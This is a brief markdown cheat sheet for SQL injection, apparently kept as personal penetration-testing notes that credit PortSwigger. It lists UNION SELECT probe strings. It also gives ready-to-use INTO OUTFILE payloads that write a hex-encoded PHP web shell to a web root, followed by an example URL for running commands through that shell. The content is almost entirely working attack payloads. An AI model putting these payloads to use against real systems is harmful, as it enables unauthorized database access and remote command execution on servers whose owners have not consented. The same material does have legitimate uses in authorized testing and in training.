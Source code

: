 ```yaml
---
title: SQL Injection Cheat Sheet
desc: Cheat sheet for SQLi provided by PortSwigger.
tags: [SQLi]
alts: [Sqlmap]
website: https://portswigger.net/web-security/sql-injection/cheat-sheet
---
```


```
' UNION SELECT NULL,NULL#
' UNION SELECT NULL,NULL-- -
' UNION SELECT NULL,NULL--

```

<br />

## Write file

- Write new php file. '0x3C3F...' is hex ( <?php system($_GET["cmd"]) ?> in here )
- Access to http://10.0.0.1/shell.php?cmd=whoami

```
' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED by 0x3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E--
' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED by 0x3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E#
```